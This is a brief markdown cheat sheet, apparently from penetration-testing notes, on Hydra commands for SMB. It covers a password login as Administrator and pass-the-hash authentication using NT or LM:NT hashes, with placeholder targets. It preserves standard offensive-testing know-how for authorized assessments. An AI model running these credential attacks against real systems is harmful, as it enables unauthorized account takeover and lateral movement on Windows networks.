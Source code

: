# Hydra

`$ hydra -U smb`

`$ hydra -V -l Administrator -p <password> smb://<IP>`

- Pass the Hash

```
$ hydra -V -l <username> -p <nt_hash> -m "" <IP> smb

$ hydra -V -l <username> -p <lm_hash>:<nt_hash> <IP> -m "LocalHash" smb
```

---
## References

- [Hydra Protocols](https://en.kali.tools/?p=220)